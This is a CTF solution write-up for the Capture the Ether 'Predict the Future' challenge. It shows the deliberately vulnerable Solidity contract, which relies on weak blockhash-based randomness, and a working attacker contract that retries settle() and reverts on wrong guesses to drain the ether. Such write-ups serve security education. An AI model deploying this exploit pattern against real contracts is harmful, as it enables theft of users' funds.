 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Predict the Future - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Predict the Future CTF
---
```


# Capture the Ether (RareSkills Repo) - Predict the Future - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract PredictTheFuture {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    constructor() payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == address(0));
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)))) % 10;

        guesser = address(0);
        if (guess == answer) {
            (bool ok,) = msg.sender.call{value: 2 ether}("");
            require(ok, "Failed to send to msg.sender");
        }
    }
}
```

## Solution

Note that `answer` has to be an integer between 0 and 9 because it is computed modulo 10. Therefore, we can lock in any guess, e.g., 0, and spam the contract by calling `settle` multiple times across multiple blocks. Notice that because `settle` will reset `guesser` to the zero address, we need to ensure the transaction reverts if we guessed wrong. (Otherwise, we'd be required to always call `lockInGuess` before calling `settle`. In particular, we'd be required to pay 1 ether for each attempt, making our spamming strategy unprofitable.)

We can conveniently execute this attack in Remix using the attacker contract below.

NOTE: `lockInGuess` must be called via the attacker contract to pass `require(msg.sender == guesser)` during settlement.

```solidity
//SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.13;

import "./PredictTheFuture.sol";

contract ExploitContract {
    PredictTheFuture public predictTheFuture;

    constructor(PredictTheFuture _predictTheFuture) {
        predictTheFuture = _predictTheFuture;
    }

    receive() external payable {}

    function lockInGuess() external payable {
        predictTheFuture.lockInGuess{value: 1 ether}(0);
    }

    function attack() external {
        predictTheFuture.settle();
        require(predictTheFuture.isComplete(), "Exploit failed");
    }
}
```
